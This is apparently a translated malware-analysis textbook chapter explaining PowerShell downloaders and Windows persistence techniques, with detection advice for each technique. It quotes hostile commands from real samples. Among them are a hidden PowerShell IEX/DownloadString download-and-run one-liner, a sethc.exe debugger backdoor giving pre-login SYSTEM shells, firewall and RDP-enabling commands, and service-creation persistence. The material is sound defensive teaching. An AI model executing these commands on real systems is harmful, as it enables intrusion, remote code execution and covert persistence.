以下是作者博客中提到的一次攻击中使用的 PowerShell 下载器的示例（[`cysinfo.com/cyber-attack-targeting-indian-navys-submarine-warship-manufacturer/`](https://cysinfo.com/cyber-attack-targeting-indian-navys-submarine-warship-manufacturer/)）。在这个例子中，PowerShell 命令通过受害者收到的电子邮件附件中的恶意宏，使用 `cmd.exe` 被触发，微软 Excel 表格内嵌的宏执行了该命令。

PowerShell 将下载的可执行文件投放到 `%TEMP%` 目录中，并命名为 `doc6.exe`。接着，它会为该可执行文件添加一个注册表条目，并调用 `eventvwr.exe`，这是一种有趣的注册表劫持技术，允许 `doc6.exe` 被 `eventvwr.exe` 以高权限级别执行。该技术还悄悄绕过了 *UAC（用户帐户控制）*：


以下是一次定向攻击中的 PowerShell 命令示例（[`cysinfo.com/uri-terror-attack-spear-phishing-emails-targeting-indian-embassies-and-indian-mea/`](https://cysinfo.com/uri-terror-attack-spear-phishing-emails-targeting-indian-embassies-and-indian-mea/)）。在这个例子中，PowerShell 是通过恶意宏触发的，且不是直接下载一个可执行文件，而是通过 `DownloadString` 方法下载了来自 Pastebin 链接的 base64 编码内容。下载编码内容后，它会被解码并写入磁盘：

```
powershell -w hidden -ep bypass -nop -c "IEX ((New-Object Net.WebClient).DownloadString('http://pastebin.com/raw/[removed]'))"
```

在以下示例中，在调用 PowerShell 之前，恶意软件投放器首先在 `%Temp%` 目录中写入一个扩展名为 *.bmp* 的 DLL 文件（`heiqh.bmp`），然后通过 PowerShell 启动 `rundll32.exe` 来加载该 DLL，并执行 DLL 导出的函数 `dlgProc`：

```
PowerShell cd $env:TEMP ;start-process rundll32.exe heiqh.bmp,dlgProc
```

有关恶意软件攻击中使用的不同 PowerShell 技术的更多信息，请参阅白皮书：*攻击中 PowerShell 使用的增加：* [`www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf`](https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf)。对手利用各种混淆技术使分析变得更加困难。想了解攻击者如何使用 PowerShell 混淆技术，请观看 Daniel Bohannon 在 Derbycon 的演讲：[`www.youtube.com/watch?v=P1lkflnWb0I`](https://www.youtube.com/watch?v=P1lkflnWb0I)。

# 2\. 恶意软件持久化方法

对手常常希望他们的恶意程序即使在 Windows 重启后也能继续存在。这通过使用各种持久性方法实现；这种持久性允许攻击者在不需要重新感染的情况下继续存在于被攻击的系统中。有许多方法可以让恶意代码每次在 Windows 启动时执行。在这一节中，你将了解一些对手使用的持久性方法。这些持久性技术中的一些方法允许攻击者在提权后执行恶意代码（权限提升）。

# 2.1 运行注册表键

对手用来在重启后生存的最常见的持久性机制之一是通过向*运行注册表键*添加条目来实现。添加到运行注册表键中的程序会在系统启动时执行。以下是最常见的运行注册表键的列表。除了我们即将提到的这些，恶意软件还可以将自己添加到其他自动启动位置。了解各种自动启动位置的最好方法是使用 Sysinternals 的*AutoRuns 工具*（[`docs.microsoft.com/en-us/sysinternals/downloads/autoruns`](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns)）：

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

在以下示例中，执行时，恶意软件（`bas.exe`）首先在 Windows 目录中投放一个可执行文件（`LSPRN.EXE`），然后在运行注册表键中添加以下条目，以便每次系统启动时都能启动该恶意程序。从注册表条目可以看出，恶意软件试图使其二进制文件看起来像一个与打印机相关的应用程序：

```
[RegSetValue] bas.exe:2192 > HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run\PrinterSecurityLayer = C:\Windows\LSPRN.EXE
```

要检测使用这种持久性方法的恶意软件，你可以监控那些与已知程序无关的 Run 注册表键的变动。你也可以使用 Sysinternal 的*AutoRuns 工具*来检查自动启动位置的可疑条目。

# 2.2 调度任务

另一个对手使用的持久性方法是调度任务，使其能够在指定时间或系统启动时执行恶意程序。像`schtasks`和`at`这样的 Windows 工具通常被对手用来调度程序或脚本在指定的日期和时间执行。通过利用这些工具，攻击者可以在本地计算机或远程计算机上创建任务，只要用于创建任务的账户是管理员组的成员。在以下示例中，恶意软件（`ssub.exe`）首先在`%AllUsersProfile%\WindowsTask\`目录中创建一个名为`service.exe`的文件，然后调用`cmd.exe`，该程序进一步使用`schtasks` Windows 工具创建一个调度任务以保持持久性：

```
[CreateFile] ssub.exe:3652 > %AllUsersProfile%\WindowsTask\service.exe
[CreateProcess] ssub.exe:3652 > "%WinDir%\System32\cmd.exe /C schtasks /create /tn MyApp /tr %AllUsersProfile%\WindowsTask\service.exe /sc ONSTART /f"
[CreateProcess] cmd.exe:3632 > "schtasks /create /tn MyApp /tr %AllUsersProfile%\WindowsTask\service.exe /sc ONSTART /f
```

要检测这种持久性类型，可以使用 Sysinternals 的*Autoruns*或*任务计划程序*实用程序列出当前计划任务。应考虑监视与合法程序无关的任务的更改。还可以监视传递给系统实用程序（如`cmd.exe`）的命令行参数，这些参数可能用于创建任务。任务也可以使用管理工具（如*PowerShell*和*Windows 管理工具（WMI）*）创建，因此适当的日志记录和监视应有助于检测此技术。

# 2.3 启动文件夹

攻击者可以通过将其恶意二进制文件添加到*启动文件夹*中实现持久性。操作系统启动时，将查找启动文件夹并执行位于此文件夹中的文件。Windows 操作系统维护两种类型的启动文件夹：*（a）用户范围*和*（b）系统范围*，如下所示。位于用户启动文件夹中的程序仅为特定用户执行，而位于系统文件夹中的程序在任何用户登录到系统时执行。需要管理员权限才能使用系统范围的启动文件夹实现持久性：

```
C:\%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

在以下示例中，恶意软件*(Backdoor.Nitol)*首先将文件放在`%AppData%`目录中。然后创建一个指向已放置文件的快捷方式（*`.lnk`*），然后将该快捷方式添加到`Startup`文件夹中。这样，当系统启动时，通过快捷方式（*`.lnk`*）文件执行已放置的文件：

```
[CreateFile] bllb.exe:3364 > %AppData%\Abcdef Hijklmno Qrs\Abcdef Hijklmno Qrs.exe
[CreateFile] bllb.exe:3364 > %AppData%\Microsoft\Windows\Start Menu\Programs\Startup\Abcdef Hijklmno Qrs.exe.lnk
```

要检测这种类型的攻击，可以监视添加的条目和对启动文件夹所做的更改。

# 2.4 Winlogon 注册表条目

攻击者可以通过修改*Winlogon*进程使用的注册表条目来实现持久性。Winlogon 进程负责处理交互式*用户登录*和*注销*。一旦用户经过身份验证，`winlogon.exe`进程会启动`userinit.exe`，该进程运行登录脚本并重新建立网络连接。然后`userinit.exe`启动`explorer.exe`，这是默认用户的外壳。

`winlogon.exe`进程启动`userinit.exe`是由以下注册表值决定的。此条目指定 Winlogon 在用户登录时需要执行哪些程序。默认情况下，此值设置为`userinit.exe`的路径（`C:\Windows\system32\userinit.exe`）。攻击者可以更改或添加另一个包含恶意可执行文件路径的值，然后该文件将由`winlogon.exe`进程启动（用户登录时）：

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
```

同样，`userinit.exe`查看以下注册表值以启动默认用户的外壳。默认情况下，此值设置为`explorer.exe`。攻击者可以更改或添加另一个条目，其中包含恶意可执行文件的名称，然后由`userinit.exe`启动：

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
```

在以下示例中，*Brontok* 蠕虫通过修改以下 Winlogon 注册表值并使用其恶意可执行文件实现持久化：


要检测这种类型的持久化机制，可以使用 Sysinternals *Autoruns 实用程序*。你可以监视注册表中的可疑条目（与合法程序无关），如前所述。

# 2.5 图像文件执行选项

*图像文件执行选项 (IFEO)* 允许直接在调试器下启动可执行文件。它为开发者提供了调试软件的选项，以调查可执行文件启动代码中的问题。开发者可以在以下注册表项下创建一个与其可执行文件名称相同的子键，并将调试器值设置为调试器的路径：

```
Key: "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable name>"
Value: Debugger : REG_SZ : <full-path to the debugger>
```

对手利用这个注册表键来启动他们的恶意程序。为了演示这种技术，`notepad.exe`的调试器被设置为计算器（`calc.exe`）进程，通过添加以下注册表项：


现在，当你启动记事本时，它将通过计算器程序启动（即使它不是一个调试器）。这种行为可以在以下截图中看到：


以下是一个恶意软件样本*(TrojanSpy:Win32/Small.M)*的示例，它将其恶意程序`iexplor.exe`配置为 Internet Explorer 的调试器（`iexplore.exe`）。这是通过添加以下注册表值实现的。在这种情况下，攻击者选择了一个与合法的 Internet Explorer 可执行文件名相似的文件名。由于以下注册表项的存在，每当执行合法的 Internet Explorer（`iexplore.exe`）时，它将通过恶意程序`iexplor.exe`启动，从而执行恶意代码：

```
[RegSetValue] LSASSMGR.EXE:960 > HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iexplore.exe\Debugger = C:\Program Files\Internet Explorer\iexplor.exe
```

要检测这种类型的持久化技术，可以检查 I*mage File Execution Options*注册表项，查看是否有与合法程序无关的修改。

# 2.6 可访问性程序

Windows 操作系统提供了多种可访问性功能，例如*屏幕键盘*、*讲述人*、*放大镜*、*语音识别*等。这些功能主要是为有特殊需求的人群设计的。这些可访问性程序甚至在未登录系统的情况下也可以启动。例如，许多可访问性程序可以通过按下*Windows + U*键组合来访问，这将启动`C:\Windows\System32\utilman.exe`，或者你可以通过连续按五次*Shift 键*来启用粘滞键，这将启动程序`C:\Windows\System32\sethc.exe`。攻击者可以改变这些可访问性程序（如`sethc.exe`和`utilman.exe`）的启动方式，执行他们选择的程序，或者利用具有提升权限的`cmd.exe`（权限提升）。

攻击者利用粘滞键（`sethc.exe`）功能通过远程桌面（RDP）获得未认证的访问权限。在 *Hikit* Rootkit 的情况下，([`www.fireeye.com/blog/threat-research/2012/08/hikit-rootkit-advanced-persistent-attack-techniques-part-1.html`](https://www.fireeye.com/blog/threat-research/2012/08/hikit-rootkit-advanced-persistent-attack-techniques-part-1.html)) 合法的 `sethc.exe` 程序被替换为 `cmd.exe`。这使得攻击者仅需按五次 *Shift 键*，就能通过 RDP 获得带有 *SYSTEM* 权限的命令提示符。虽然在旧版 Windows 中，可以将辅助功能程序替换为其他程序，但新版 Windows 强制执行各种限制，比如替换后的二进制文件必须位于 `%systemdir%`，必须为 x64 系统数字签名，并且必须受到 *Windows 文件或资源保护（WFP/WRP）* 的保护。这些限制使得攻击者很难替换合法的程序（如 `sethc.exe`）。为了避免替换文件，攻击者利用 *图像文件执行选项*（在上一节中已讲解），如以下代码所示。以下注册表项将 `cmd.exe` 设置为 `sethc.exe` 的调试器；现在，攻击者可以通过 RDP 登录并按五次 *Shift* 键来访问系统级别的命令行。通过该命令行，攻击者可以在身份验证之前执行任何任意命令。同样，一个恶意后门程序也可以通过将其设置为 `sethc.exe` 或 `utilman.exe` 的调试器来执行：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

在以下示例中，当恶意软件样本（`mets.exe`）被执行时，它会运行以下命令，该命令修改防火墙规则/注册表以允许 RDP 连接，然后添加一个注册表值，将任务管理器（`taskmgr.exe`）设置为 `sethc.exe` 的调试器。这使得攻击者可以通过 RDP 访问 `taskmgr.exe`（并具有 SYSTEM 权限）。使用此技术，攻击者可以在不登录系统的情况下，通过 RDP *终止进程* 或 *启动/停止服务*：

```
[CreateProcess] mets.exe:564 > "cmd /c netsh firewall add portopening tcp 3389 all & reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f & REG ADD HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe /v Debugger /t REG_SZ /d %windir%\system32\taskmgr.exe /f"
```

这种攻击类型稍微难以检测，因为攻击者要么用合法程序替换辅助功能程序，要么利用合法程序。然而，如果你怀疑辅助功能程序（`sethc.exe`）已被合法文件（如 `cmd.exe` 或 `taskmgr.exe`）替换，那么你可以通过比较替换后辅助功能程序的哈希值与合法文件（`cmd.exe` 或 `taskmgr.exe`）的哈希值，来寻找是否匹配。哈希值匹配表明原始的 `sethc.exe` 文件已被替换。你还可以检查 *图像文件执行选项* 注册表项，查看是否有任何可疑的修改。

# 2.7 AppInit_DLLs

Windows 中的 `AppInit_DLLs` 功能提供了一种将自定义 DLL 加载到每个交互式应用程序地址空间中的方法。一旦 DLL 被加载到任何进程的地址空间中，它就可以在该进程的上下文中运行，并且可以挂钩常见的 API 来实现替代功能。攻击者可以通过在以下注册表项中设置 `AppInit_DLLs` 值来使其恶意 DLL 保持持久性。该值通常包含由空格或逗号分隔的 DLL 列表。这里指定的所有 DLL 都会被加载到每个加载 `User32.dll` 的进程中。由于几乎所有进程都加载 `User32.dll`，这一技术使得攻击者能够将其恶意 DLL 加载到大多数进程中，并在加载的进程上下文中执行恶意代码。除了设置 `AppInit_DLLs` 值外，攻击者还可以通过将 `LoadAppInit_DLLs` 注册表值设置为 `1` 来启用 `AppInit_DLLs` 功能。在 Windows 8 及更高版本中，如果启用了安全启动，`AppInit_DLLs` 功能将被禁用：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows
```

以下截图显示了*T9000 后门*添加的 AppInit DLL 条目 ([`researchcenter.paloaltonetworks.com/2016/02/t9000-advanced-modular-backdoor-uses-complex-anti-analysis-techniques/`](https://researchcenter.paloaltonetworks.com/2016/02/t9000-advanced-modular-backdoor-uses-complex-anti-analysis-techniques/))：


由于添加了上述注册表条目，当任何新的进程（加载了`User32.dll`）启动时，它会将恶意 DLL（`ResN32.dll`）加载到其地址空间中。以下截图显示了系统重启后加载了恶意 DLL（`ResN32.dll`）的操作系统进程。由于大多数这些进程以高完整性级别运行，因此攻击者可以利用这一点以提升的权限执行恶意代码：


为了检测这一技术，您可以查找 `AppInit_DLLs` 注册表值中与您环境中的合法程序无关的可疑条目。您还可以查找由于加载恶意 DLL 而表现出异常行为的进程。

# 2.8 DLL 搜索顺序劫持

当一个进程被执行时，它相关的 DLL 被加载到进程内存中（无论是通过*导入表*，还是因为进程调用了`LoadLibrary()` API）。Windows 操作系统会按照特定顺序在预定义的位置搜索要加载的 DLL。搜索顺序的文档可以在 MSDN 中找到：[`msdn.microsoft.com/en-us/library/ms682586(VS.85).aspx`](http://msdn.microsoft.com/en-us/library/ms682586(VS.85).aspx)。

简而言之，如果需要加载任何 DLL，操作系统首先会检查该 DLL 是否已加载到内存中。如果已加载，它会使用已加载的 DLL。如果未加载，操作系统会检查 DLL 是否已在 `KnownDLLs` 注册表键中定义（`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`）。此处列出的 DLL 是系统 DLL（位于 `system32` 目录中），它们通过 *Windows 文件保护* 进行保护，以确保除操作系统更新外，这些 DLL 不会被删除或更新。如果要加载的 DLL 在 `KnownDLLs` 列表中，那么该 DLL 始终会从 `System32` 目录加载。如果这些条件不满足，操作系统会按顺序在以下位置查找 DLL：

1.  应用程序启动的目录。

1.  系统目录（`C:\Windows\System32`）。

1.  16 位系统目录（`C:\Windows\System`）。

1.  Windows 目录（`C:\Windows`）。

1.  当前目录。

1.  `PATH` 变量中定义的目录。

攻击者可以利用操作系统查找 DLL 的方式来提升权限并实现持久性。考虑到在“Operation Groundbait”行动中使用的恶意软件（*Prikormka dropper*）([`www.welivesecurity.com/wp-content/uploads/2016/05/Operation-Groundbait.pdf`](http://www.welivesecurity.com/wp-content/uploads/2016/05/Operation-Groundbait.pdf))。该恶意软件在执行时会在 Windows 目录（`C:\Windows`）中放置一个名为 `samlib.dll` 的恶意 DLL，如下所示：

```
[CreateFile] toor.exe:4068 > %WinDir%\samlib.dll
```

在一个干净的操作系统中，名为 `samlib.dll` 的 DLL 存在于 `C:\Windows\System32` 目录中，并且该干净的 DLL 会被位于 `C:\Windows` 目录中的 `explorer.exe` 加载。该干净的 DLL 也会被其他一些位于 `system32` 目录中的进程加载，如下所示：


由于恶意 DLL 被放置在与 `explorer.exe` 相同的目录中（即 `C:\Windows`），因此在系统重启后，恶意的 `samlib.dll` 会由 `explorer.exe` 从 `C:\Windows` 目录加载，而不是从 `system32` 目录加载合法的 DLL。以下截图显示了在感染系统重启后，由于 DLL 搜索顺序劫持，`explorer.exe` 加载了恶意 DLL：


*DLL 搜索顺序劫持* 技术使得取证分析变得更加困难，并且能够绕过传统防御措施。为了检测此类攻击，您应考虑监控 DLL 的创建、重命名、替换或删除，并查看任何由进程加载的来自异常路径的模块（DLL）。

# 2.9 COM 劫持

*组件对象模型（COM）* 是一个允许软件组件互相交互和通信的系统，即使它们互相之间不了解对方的代码（[`msdn.microsoft.com/en-us/library/ms694363(v=vs.85).aspx`](https://msdn.microsoft.com/en-us/library/ms694363(v=vs.85).aspx)）。软件组件通过使用 COM 对象相互交互，这些对象可以位于单个进程、其他进程或远程计算机上。COM 被实现为一个客户端/服务器框架。COM 客户端是一个使用 COM 服务器（COM 对象）服务的程序，COM 服务器是一个为 COM 客户端提供服务的对象。COM 服务器实现了一个包含各种方法（函数）的接口，这些方法可以在 DLL 中（称为 *进程内服务器*）或 EXE 中（称为 *进程外服务器*）。COM 客户端可以通过创建 COM 对象的实例、获取接口指针并调用其接口中实现的方法来使用 COM 服务器提供的服务。

Windows 操作系统提供了各种 COM 对象，供程序（COM 客户端）使用。这些 COM 对象由一个唯一的编号标识，称为 *类标识符*（*CLSIDs*），它们通常可以在注册表项 `HKEY_CLASSES_ROOT\CLSID\< unique clsid>` 中找到。例如，*我的电脑* 的 COM 对象是 `{20d04fe0-3aea-1069-a2d8-08002b30309d}`，可以在以下截图中看到：


对于每个 CLSID 键，您还有一个名为 `InProcServer32` 的子键，指定实现 COM 服务器功能的 DLL 文件名。以下截图显示 `shell32.dll`（COM 服务器）与 *我的电脑* 关联：



类似于 *我的电脑* COM 对象，微软提供了各种其他 COM 对象（通过 DLL 实现），这些对象被合法程序所使用。当合法程序（COM 客户端）使用特定 COM 对象的服务（使用其 CLSID）时，相关的 DLL 会被加载到客户端程序的进程地址空间中。在 *COM 劫持* 的情况下，攻击者修改了合法 COM 对象的注册表项，并将其与攻击者的恶意 DLL 关联。其目的是，当合法程序使用被劫持的对象时，恶意 DLL 会被加载到合法程序的地址空间中。这使得攻击者能够在系统上保持持久性并执行恶意代码。

在以下示例中，当执行恶意软件（*Trojan.Compfun*）时，它会丢弃一个带有 `._dl` 扩展名的 `dll` 文件，如下所示：

```
[CreateFile] ions.exe:2232 > %WinDir%\system\api-ms-win-downlevel-qgwo-l1-1-0._dl
```

然后，恶意软件在 `HKCU\Software\Classes\CLSID` 中设置以下注册表值。此条目将 `MMDeviceEnumerator` 类的 COM 对象 `{BCDE0395-E52F-467C-8E3D-C4579291692E}` 与恶意 DLL `C:\Windows\system\api-ms-win-downlevel-qgwo-l1-1-0._dl` 关联，针对当前用户：

```
[RegSetValue] ions.exe:2232 > HKCU\Software\Classes\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E}\InprocServer32\(Default) = C:\Windows\system\api-ms-win-downlevel-qgwo-l1-1-0._dl
```

在干净的系统上，`MMDeviceEnumerator` 类的 COM 对象 `{BCDE0395-E52F-467C-8E3D-C4579291692E}` 关联的 DLL 是 `MMDevApi.dll`，其注册表条目通常位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\`，而在 `HKCU\Software\Classes\CLSID\` 中找不到相应的条目：


由于恶意软件在 `HKCU\Software\Classes\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E}` 中添加了条目，受感染的系统现在包含了相同 CLSID 的两个注册表条目。由于用户对象从 `HKCU\Software\Classes\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E}` 被加载，优先于位于 `HKLM\SOFTWARE\Classes\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E}` 的机器对象，恶意 DLL 被加载，从而劫持了 `MMDeviceEnumerator` 的 COM 对象。现在，任何使用 `MMDeviceEnumerator` 对象的进程都会加载恶意 DLL。在重新启动受感染的系统后，如下图所示，`explorer.exe` 加载了恶意 DLL。


*COM 劫持* 技术可逃避大多数传统工具的检测。要检测此类攻击，可以查看 `HKCU\Software\Classes\CLSID\` 中对象的存在。恶意软件可能不会在 `HKCU\Software\Classes\CLSID\` 中添加条目，而是修改 `HKLM\Software\Classes\CLSID\` 中的现有条目以指向恶意二进制文件，因此还应考虑检查此注册表键中指向未知二进制文件的任何值。

# 2.10 服务

服务是在后台运行且没有用户界面的程序，它提供核心操作系统功能，如事件日志记录、打印、错误报告等。攻击者通过将恶意程序安装为服务或修改现有服务，可以在具有管理员特权的系统上持久存在。使用服务的优势在于可以在操作系统启动时自动启动，并且大多数情况下以 SYSTEM 等特权帐户运行；这使攻击者可以提升权限。攻击者可以将恶意程序实现为 *EXE*、*DLL* 或 *内核驱动程序* 并将其作为服务运行。Windows 支持各种服务类型，以下概述了恶意程序常用的一些服务类型：

+   *Win32OwnProcess:* 该服务的代码作为可执行文件实现，并作为单独的进程运行

+   *Win32ShareProcess:* 该服务的代码作为 DLL 实现，并且从共享主机进程 (`svchost.exe`) 运行

+   *内核驱动程序服务:* 这种类型的服务在驱动程序（`.sys`）中实现，并用于在内核空间执行代码

Windows 将已安装服务及其配置存储在注册表的 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services` 键下。每个服务都有其自己的子键，其中包含指定如何、何时以及是否以 *EXE*、*DLL* 或 *内核驱动程序* 实现该服务的值。例如，*Windows 安装程序服务* 的服务名为 `msiserver`，在以下截图中，注册表下的子键与服务名相同，位于 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services` 下。`ImagePath` 值指定该服务的代码实现于 `msiexec.exe`，`Type` 值为 `0x10(16)`，表示它是 `Win32OwnProcess`，而 `Start` 值 `0x3` 表示 `SERVICE_DEMAND_START`，即该服务需要手动启动：


要确定与常量值关联的符号名称，您可以参考 MSDN 文档中的 `CreateService()` API ([`msdn.microsoft.com/en-us/library/windows/desktop/ms682450(v=vs.85).aspx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682450(v=vs.85).aspx))，或者可以通过提供服务名称来使用 `sc` 工具查询服务配置，如下所示。这将显示类似于注册表子项中找到的信息：

```
C:\>sc qc "msiserver"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: msiserver
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 3 DEMAND_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Windows\system32\msiexec.exe /V
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Windows Installer
DEPENDENCIES : rpcss
SERVICE_START_NAME : LocalSystem
```

现在我们来看一个 *Win32ShareProcess* 服务的示例。*Dnsclient* 服务的服务名为 `Dnscache`，该服务的代码实现于 DLL 中。当服务实现为 DLL（服务 DLL）时，`ImagePath` 注册表值通常会包含指向 `svchost.exe` 的路径（因为该进程加载了服务 DLL）。要确定与服务关联的 DLL，您需要查看 `ServiceDLL` 值，该值位于 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\<service name>\Parameters` 子项下。以下截图显示了与 Dnsclient 服务关联的 DLL（`dnsrslvr.dll`）；该 DLL 由通用宿主进程 `svchost.exe` 加载：


攻击者可以通过多种方式创建服务。以下概述了其中一些常见的方法：

+   **sc 工具：** 恶意软件可以调用 `cmd.exe` 并运行 `sc` 命令，例如 `sc create` 和 `sc start`（或 `net start`）来创建和启动服务。以下示例中，恶意软件通过 `cmd.exe` 执行 `sc` 命令来创建并启动一个名为 `update` 的服务：

```
[CreateProcess] update.exe:3948 > "%WinDir%\System32\cmd.exe /c sc create update binPath= C:\malware\update.exe start= auto && sc start update "
```

+   **批处理脚本：** 恶意软件可以投放批处理脚本并执行前面提到的命令来创建和启动服务。在以下示例中，恶意软件 (*Trojan:Win32/Skeeyah)* 投放了一个批处理脚本（`SACI_W732.bat`）并执行该脚本（通过 `cmd.exe`），该脚本会创建并启动一个名为 `Saci` 的服务：

```
[CreateProcess] W732.exe:2836 > "%WinDir%\system32\cmd.exe /c %LocalAppData%\Temp\6DF8.tmp\SACI_W732.bat "
[CreateProcess] cmd.exe:2832 > "sc create Saci binPath= %WinDir%\System32\Saci.exe type= own start= auto"
[CreateProcess] cmd.exe:2832 > "sc start Saci"
```

+   **Windows API**：恶意软件可以使用 Windows API，如`CreateService()`和`StartService()`来*创建*和*启动*服务。当你在后台运行`sc utility`时，它使用这些 API 调用来创建和启动服务。考虑以下*NetTraveler*恶意软件的示例。执行时，它首先会丢弃一个 dll：

```
[CreateFile] d3a.exe:2904 > %WinDir%\System32\FastUserSwitchingCompatibilityex.dll
```

然后，它通过`OpenScManager()` API 打开到服务控制管理器的句柄，并通过调用`CreateService()` API 创建一个`Win32ShareProcess`类型的服务。第二个参数指定服务的名称，在这种情况下是`FastUserSwitchingCompatiblity`：



在调用`CreateService()`后，服务被创建，并且以下注册表项被添加，包含服务配置信息：


接着，它在之前创建的注册表项下创建一个`Parameters`子项：


之后，它丢弃并执行一个批处理脚本，该脚本设置注册表值（`ServiceDll`）以将 DLL 与创建的服务关联。批处理脚本的内容如下所示：

```
@echo off

@reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\FastUserSwitchingCompatibility\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d C:\Windows\system32\FastUserSwitchingCompatibilityex.dll
```

由于创建了一个`Win32ShareProcess`服务，当系统启动时，服务控制管理器（`services.exe`）启动`svchost.exe`进程，进而加载恶意的 ServiceDLL `FastUserSwitchingCompatibilityex.dll`。

+   **PowerShell 和 WMI**：可以使用管理工具如*PowerShell*（[`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-service?view=powershell-5.1`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-service?view=powershell-5.1)）和*Windows Management Instrumentation (WMI)* 高级接口（[`msdn.microsoft.com/en-us/library/aa394418(v=vs.85).aspx`](https://msdn.microsoft.com/en-us/library/aa394418(v=vs.85).aspx)）来创建服务。

攻击者可以修改（劫持）现有服务，而不是创建新服务。通常，攻击者劫持的是未使用或已禁用的服务。这使得检测稍微变得困难，因为如果你试图查找非标准或未识别的服务，你可能会错过这种类型的攻击。考虑以下*BlackEnergy*恶意软件投放器的示例，它*劫持*现有服务以在系统上保持存在。执行时，*BlackEnergy*替换了一个合法的驱动程序`aliide.sys`（与名为`aliide`的服务相关联），该驱动程序位于`system32\drivers`目录中，并将其替换为恶意的`aliide.sys`驱动程序。替换驱动程序后，它修改与`aliide`服务相关的注册表项，并将其设置为自动启动（服务在系统启动时自动启动），如下所示：

```
[CreateFile] big.exe:4004 > %WinDir%\System32\drivers\aliide.sys
[RegSetValue] services.exe:504 > HKLM\System\CurrentControlSet\services\aliide\Start = 2
```

以下截图显示了`aliide`服务在修改前后的服务配置。有关*BlackEnergy3*大掉落器的详细分析，请阅读作者的博客文章，链接如下：[`cysinfo.com/blackout-memory-analysis-of-blackenergy-big-dropper/`](https://cysinfo.com/blackout-memory-analysis-of-blackenergy-big-dropper/)


为了检测此类攻击，请监控与合法程序无关的服务注册表条目的变化。查看与服务关联的二进制路径的修改情况，以及服务启动类型（从手动到自动）的变化。你还应考虑监控和记录使用像*sc*、*PowerShell*和*WMI*等工具的情况，这些工具可以用来与服务交互。Sysinternals 的*AutoRuns 工具*也可以用来检查服务的持久性使用情况。

对手可以在每次启动 Microsoft Office 应用程序时保持恶意代码的持久性并执行它。有关更多详细信息，请参见[`www.hexacorn.com/blog/2014/04/16/beyond-good-ol-run-key-part-10/`](http://www.hexacorn.com/blog/2014/04/16/beyond-good-ol-run-key-part-10/)和[`researchcenter.paloaltonetworks.com/2016/07/unit42-technical-walkthrough-office-test-persistence-method-used-in-recent-sofacy-attacks/`](https://researchcenter.paloaltonetworks.com/2016/07/unit42-technical-walkthrough-office-test-persistence-method-used-in-recent-sofacy-attacks/)。有关各种持久化方法的更多详细信息，并了解对手的战术和技术，请参考 MITRE 的 ATT&CK 维基：[`attack.mitre.org/wiki/Persistence`](https://attack.mitre.org/wiki/Persistence)。

# 摘要

恶意软件使用各种 API 调用与系统交互，在本章中，你学习了恶意二进制文件如何利用 API 调用实现各种功能。本章还涵盖了对手使用的不同持久化技术，这些技术使得恶意软件即使在系统重启后仍能驻留在受害者系统上（其中一些技术允许恶意二进制文件以高权限执行代码）。

在下一章中，你将学习对手使用的不同代码注入技术，这些技术用于在合法进程的上下文中执行恶意代码。
